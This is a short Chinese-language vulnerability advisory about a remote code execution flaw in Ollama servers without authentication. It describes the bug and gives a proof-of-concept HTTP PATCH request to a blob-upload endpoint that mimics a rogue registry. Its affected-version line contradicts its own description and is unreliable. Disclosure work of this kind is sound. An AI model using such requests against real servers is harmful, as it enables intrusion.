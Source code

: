 **漏洞介绍**

Ollama是Ollama开源的一个可以在本地启动并运行的大型语言模型。

Ollama 0.1.34之前版本存在安全漏洞，该漏洞源于在获取模型路径时不验证摘要的格式，会错误处理测试用例。没有强制身份验证的Ollama服务器上，攻击者可通过操控服务器接口下载恶意文件，从而导致远程代码执行。

**影响版本**

Ollama >= 0.1.34

**漏洞复现**

**POC** 

漏洞复现

```yaml
PATCH /v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04?_state=eBQ2_sxwOJVy8DZMYYZ8wA8NBrJjmdINFUMM6uEZyYF7Ik5hbWUiOiJyb2d1ZS9sbGFtYTMiLCJVVUlEIjoiMzY0NzI5OGMtOTU4OC00ZGQyLTliYmUtMDUzOTUzM2QyZDA0IiwiT2Zmc2V0IjowLCJTdGFydGVkQXQiOiIyMDI0LTA2LTI1VDEzOjAxOjExLjU5MTkyMzgxMVoifQ%3D%3D HTTP/1.1
Host: 127.0.0.1
User-Agent: ollama/0.1.33 (amd64 linux) Go/go1.22.1
Content-Length: 501
Content-Range: 0-500
Content-Type: application/octet-stream
X-Redirect-Uploads: 1
Accept-Encoding: gzip

```

